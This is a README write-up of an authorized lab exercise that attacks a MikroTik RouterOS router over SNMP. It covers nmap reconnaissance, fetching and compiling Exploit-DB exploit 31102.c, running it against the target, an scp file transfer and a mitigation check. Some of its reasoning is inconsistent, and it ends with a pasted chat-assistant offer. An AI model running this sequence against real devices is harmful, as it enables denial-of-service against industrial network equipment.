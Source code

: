 # 🔒 MikroTik RouterOS ICS Security Penetration Test

This repository documents a controlled cyber range exercise focused on penetration testing a **MikroTik RouterOS 7.x** device in an Industrial Control Systems (ICS) environment. The goal: **reconnaissance → exploit (SNMP) → verify remediation (OpSec verification)**.

> **Important:** This material documents a controlled, authorized exercise. Use only in environments where you have explicit permission to test.

## Overview

This guide captures commands and notes from an internal exercise where a MikroTik RouterOS device was identified and tested for an SNMP-related denial-of-service exploit. The exercise demonstrates typical penetration test phases: reconnaissance, enumeration, exploit preparation, execution, and verification of mitigation.

---

## Roles & IP Addresses

| Role             | IP Address    | Notes                                |
| ---------------- | ------------- | ------------------------------------ |
| Attacker Machine | `10.13.20.91` | Source IP for launching the exploit. |
| Target Router    | `10.13.20.16` | MikroTik RouterOS 7.x (identified).  |

---

## Phase 1 — Reconnaissance and Network Mapping

Initial steps to confirm attacker network configuration and discover hosts in the `10.13.20.0/24` subnet.

### 1.1 Check Attacker Network Configuration

**Commands and purpose:**

| Command        | Purpose                                      |
| -------------- | -------------------------------------------- |
| `ifconfig`     | Display network interfaces and IP addresses. |
| `ip addr show` | Display IP address and interface details.    |

```bash
# Example: list network interfaces (Linux)
ifconfig

# or
ip addr show
```

---

### 1.2 Host Discovery Scan

Use Nmap to perform a ping scan of the subnet.

```bash
# Ping sweep to find live hosts
nmap -sn 10.13.20.0/24
```

---

## Phase 2 — Target Enumeration & Vulnerability Identification

After identifying `10.13.20.16` as a host, a deeper scan was run to enumerate services and the OS.

### 2.1 Aggressive Port and OS/Service Scan

```bash
# Aggressive scan for services, OS detection, and version detection (target: 10.13.20.16)
nmap -p 22,5000,8080,502,1502,2502 -A -sV -O -Pn -T4 10.13.20.16
```

> Result: Device fingerprinted as **MikroTik RouterOS 7.x**.

---

### 2.2 Search for Exploits

Search public exploit databases (Exploit-DB / searchsploit) for MikroTik RouterOS 7 vulnerabilities.

```bash
# Search exploit-db for MikroTik RouterOS 7
searchsploit mikrotik routeros 7
```

> Example finding: SNMP SET Denial of Service exploit among other entries.

---

### 2.3 Download Exploit Source Code

Copy the exploit source (example: `31102.c`) locally for review/compilation.

```bash
# Mirror (copy) exploit to local directory
searchsploit -m exploits/hardware/dos/31102.c
```

---

## Phase 3 — Exploit Preparation & Delivery

Compile the exploit and make it available for the target to download (simulating a delivery step in the controlled lab).

### 3.1 Review and Compile the Exploit

**Commands and purposes:**

| Command                          | Purpose                                         |
| -------------------------------- | ----------------------------------------------- |
| `nano 31102.c`                   | Open and review the C source file.              |
| `gcc 31102.c -o exploit_binary1` | Compile the C source into an executable binary. |

```bash
# Open exploit source
nano 31102.c

# Compile
gcc 31102.c -o exploit_binary1
```

---

### 3.2 Host and Transfer the Exploit

Host the compiled binary with a temporary HTTP server for download.

```bash
# Start a simple Python HTTP server on port 8080
python3 -m http.server 8080
```

> Server logs indicated `10.13.20.16` successfully downloaded the file (exercise log).

---

## Phase 4 — Exploitation & Post-Exploitation

Execute the compiled exploit against the target's SNMP service and demonstrate a basic post-exploitation transfer step (OpSec example).

### 4.1 Execute Exploit Binary

Attempt to run the exploit locally, specifying source/destination and SNMP community string.

```bash
# Initial (non-root) attempt (failed due to privileges)
./exploit_binary1 -s 10.13.20.91 -d 10.13.20.16 -c public

# Run as root (succeeds in sending packets; indicates SNMP daemon must be down on target)
sudo ./exploit_binary1 -s 10.13.20.91 -d 10.13.20.16 -c public
```

**Notes:**

* First run failed because of insufficient privileges.
* Running with `sudo` successfully sent packets — exercise logs indicate SNMPd was not running (or had been disabled) at the time of the run.

---

### 4.2 Secure File Copy (OpSec Example)

Example of copying a file (`app.py`) to another host as part of simulation post-exploitation workflow.

```bash
# Secure copy to a separate host (example)
scp app.py student@10.14.7.18:docker/substation-envsim/
```

---

## Phase 5 — Operational Security (OpSec) Verification

Confirm the vulnerable vector (SNMP on UDP/161) is no longer available after mitigation.

### 5.1 Verify SNMP Service State

Scan UDP port 161 on the target to confirm it is closed.

```bash
# Scan UDP port 161 (SNMP) on the target to verify mitigation
sudo nmap -sU -p 161 10.13.20.16
```

**Verification Result:**
`161/udp closed  snmp` — shows the SNMP port is closed; mitigation successful in disabling the primary exploit vector.

---

## Notes & References

* Target and exploit details are recorded from a controlled, authorized cyber range exercise.
* Always obtain explicit, written authorization before performing any penetration testing or active scanning on networks or devices you do not own.
* This README preserves the original commands and sequence used during the exercise for repeatability and documentation.

---

If you'd like, I can:

* produce a downloadable `README.md` file, or
* generate a formatted GitHub release note or `CHANGELOG.md` from this content, or
* convert this into a Markdown file and place it into a Git-friendly folder structure (one-shot copy).
